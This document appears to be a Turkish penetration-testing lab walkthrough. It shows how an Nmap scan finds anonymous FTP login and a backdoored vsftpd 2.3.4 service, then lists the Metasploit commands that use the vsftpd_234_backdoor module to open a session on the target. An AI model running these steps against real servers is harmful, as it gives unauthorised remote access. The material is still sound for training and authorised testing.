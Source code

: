 - 🔎 **Nmap taraması** incelendiğinde, **21 numaralı port (FTP)** açık olarak görünür ve burada sızılabilecek iki önemli açık tespit edilir:

---

## 🔓 Anonymous FTP Allowed

- Bu, FTP sunucusuna **anonymous (kimliksiz)** kullanıcı olarak giriş yapılabileceğini gösterir.

- Bağlantı için:
  ```bash
  ftp <target ip>
  ```

- Giriş sırasında kullanıcı adı ve parola sorulduğunda:
  - `anonymous` yazılarak oturum açılır.

- ⚠️ FTP'ye bağlanmak doğrudan sunucuyu ele geçirmek anlamına gelmez.  
  Ancak bu bağlantı üzerinden **sunucuya dosya yüklenebilir**, bu da saldırganın kötü amaçlı içerik bırakmasına olanak tanır.

---

## 📦 Versiyon Açığı: vsftpd 2.3.4

- 🔍 Nmap taramasında FTP servisinin **vsftpd 2.3.4** sürümünü kullandığı tespit edilir.

- Bu sürümle ilgili bilinen açıkları araştırmak için:
  ```text
  vsftpd 2.3.4 exploit
  ```
  şeklinde bir internet araması yapılır.

- 🌐 Genellikle ilk sonuçlarda, Rapid7 tarafından hazırlanmış bir **Metasploit modülü** bulunur. Bu açık, arka kapı (backdoor) içeren bir sürümdür.

---

### 🚀 Exploit Kullanımı (Metasploit Framework)

1. Metasploit başlatılır:
   ```bash
   msfconsole
   ```

2. Exploit modülü seçilir:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

3. Hedef ve seçenekler yapılandırılır:
   ```bash
   show targets
   set target 0
   show options
   set rhosts <target ip>
   ```

4. Exploit çalıştırılır:
   ```bash
   exploit -j -z
   ```

5. Açılan oturumlar listelenir ve bağlantı kurulur:
   ```bash
   sessions -l
   sessions 1
   ```
6. Operasyon bittiği takdirde çıkış yapılır:
   ```bash
   background 
   exit
   ```
---

✅ **Sonuç:** Bu işlem sonucunda, hedef sistem üzerinde bir oturum (session) açılır ve sunucuya doğrudan bağlantı sağlanır. Yani sistem ele geçirilmiş olur. 💻🔐
